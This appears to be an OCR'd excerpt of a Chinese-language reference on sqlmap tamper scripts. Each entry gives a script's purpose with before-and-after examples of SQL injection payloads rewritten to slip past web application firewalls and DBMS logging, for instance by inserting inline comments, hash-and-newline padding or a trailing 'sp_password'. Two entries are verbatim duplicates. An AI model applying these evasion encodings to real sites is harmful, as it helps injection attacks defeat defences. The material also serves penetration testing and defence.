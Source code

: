 	INSERT
	InsERt


> 脚本名：randomcomments.py  

作用：向SQL关键字中插入随机注释    
Example：

	‘INSERT’
	‘IN/**/S/**/ERT’


> 脚本名：securesphere.py   

作用：添加经过特殊构造的字符串    
Example：

	('1 AND 1=1')
	"1 AND 1=1 and '0having'='0having'"


> 脚本名：sp_password.py  

作用：向payload末尾添加“sp_password”,从DBMS日志的自动模糊处理的有效载荷的末尾
Example：

	('1 AND 9227=9227-- ')
	'1 AND 9227=9227-- sp_password'


> 脚本名：space2comment.py   

作用：用“/**/”替换空格符    
Example：

	SELECT id FROM users
	SELECT/**/id/**/FROM/**/users


> 脚本名：space2dash.py  

作用：绕过过滤‘=’ 替换空格字符（' '），（’–‘）后跟一个破折号注释，一个随机字符串和一个新行（’n’）
Example：

	('1 AND 9227=9227')
	'1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227'


> 脚本名：space2hash.py   

作用：用注释符“#”其次是一个随机字符串和一个换行符替换空格符    
Example：

	1 AND 9227=9227
	1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227


> 脚本名：space2morehash.py   

作用：用注释符“#”其次是一个随机字符串和一个换行符替换空格符    
Example：

	1 AND 9227=9227
	1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227
